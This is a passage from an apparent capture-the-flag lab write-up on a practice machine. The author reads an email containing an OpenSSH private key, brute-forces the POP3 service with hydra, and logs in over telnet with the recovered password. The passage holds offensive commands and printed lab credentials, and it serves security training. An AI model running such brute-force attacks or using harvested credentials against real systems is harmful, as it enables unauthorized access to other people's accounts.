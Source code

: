Righteous! We got our flag. However, I can't help but peek a gander at the `Maildir`.

```
simon@lin-medium:~/Maildir/.INBOX/cur$ cat simon\:2\,S
From admin@inlanefreight.htb  Mon Apr 18 19:36:10 2022
Return-Path: <root@inlanefreight.htb>
X-Original-To: simon@inlanefreight.htb
Delivered-To: simon@inlanefreight.htb
Received: by inlanefreight.htb (Postfix, from userid 0)
        id 9953E832A8; Mon, 18 Apr 2022 19:36:10 +0000 (UTC)
Subject: New Access
To: <simon@inlanefreight.htb>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20220418193610.9953E832A8@inlanefreight.htb>
Date: Mon, 18 Apr 2022 19:36:10 +0000 (UTC)
From: Admin <root@inlanefreight.htb>

Hi,
Here is your new key Simon. Enjoy and have a nice day..

 -----BEGIN OPENSSH PRIVATE KEY----- b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAlwAAAAdzc2gtcn NhAAAAAwEAAQAAAIEN11i6S5a2WTtRlu2BG8nQ7RKBtK0AgOlREm+mfdZWpPn0HEvl92S4 4W1H2nKwAWwZIBlUmw4iUqoGjib5KvN7H4xapGWIc5FPb/FVI64DjMdcUNlv5GZ38M1yKm w5xKGD/5xEWZt6tofpgYLUNxK62zh09IfbEOORkc5J9z2jUpEAAAIITrtUA067VAMAAAAH c3NoLXJzYQAAAIEN11i6S5a2WTtRlu2BG8nQ7RKBtK0AgOlREm+mfdZWpPn0HEvl92S44W 1H2nKwAWwZIBlUmw4iUqoGjib5KvN7H4xapGWIc5FPb/FVI64DjMdcUNlv5GZ38M1yKmw5 xKGD/5xEWZt6tofpgYLUNxK62zh09IfbEOORkc5J9z2jUpEAAAADAQABAAAAgQe3Qpknxi 6E89J55pCQoyK65hQ0WjTrqCUvt9oCUFggw85Xb+AU16tQz5C8sC55vH8NK9HEVk6/8lSR Lhy82tqGBfgGfvrx5pwPH9a5TFhxnEX/GHIvXhR0dBlbhUkQrTqOIc1XUdR+KjR1j8E0yi ZA4qKw1pK6BQLkHaCd3csBoQAAAEECeVZIC1Pq6T8/PnIHj0LpRcR8dEN0681+OfWtcJbJ hAWVrZ1wrgEg4i75wTgud5zOTV07FkcVXVBXSaWSPbmR7AAAAEED81FX7PttXnG6nSCqjz B85dsxntGw7C232hwgWVPM7DxCJQm21pxAwSLxp9CU9wnTwrYkVpEyLYYHkMknBMK0/QAA AEEDgPIA7TI4F8bPjOwNlLNulbQcT5amDp51fRWapCq45M7ptN4pTGrB97IBKPTi5qdodg O9Tm1rkjQ60Ty8OIjyJQAAABBzaW1vbkBsaW4tbWVkaXVtAQ== -----END OPENSSH PRIVATE KEY-----
```

Dang! Now we have a private key as well! This makes me think that this was another way into the box! Let's go back and try pop3!

```
$ hydra -l simon -P mynotes.txt 10.129.201.127 pop3
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-12 23:20:40
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:1/p:8), ~1 try per task
[DATA] attacking pop3://10.129.201.127:110/
[110][pop3] host: 10.129.201.127   login: simon   password: 8Ns8j1b!23hs4921smHzwn
```

Just as I suspected. Let's see if we can find that email.

```
$ telnet 10.129.201.127 110                                                                                           
Trying 10.129.201.127...
Connected to 10.129.201.127.
Escape character is '^]'.
+OK Dovecot (Ubuntu) ready.
USER simon
+OK
PASS 8Ns8j1b!23hs4921smHzwn
+OK Logged in.
LIST 1
+OK 1 messages:
1 1630
.
```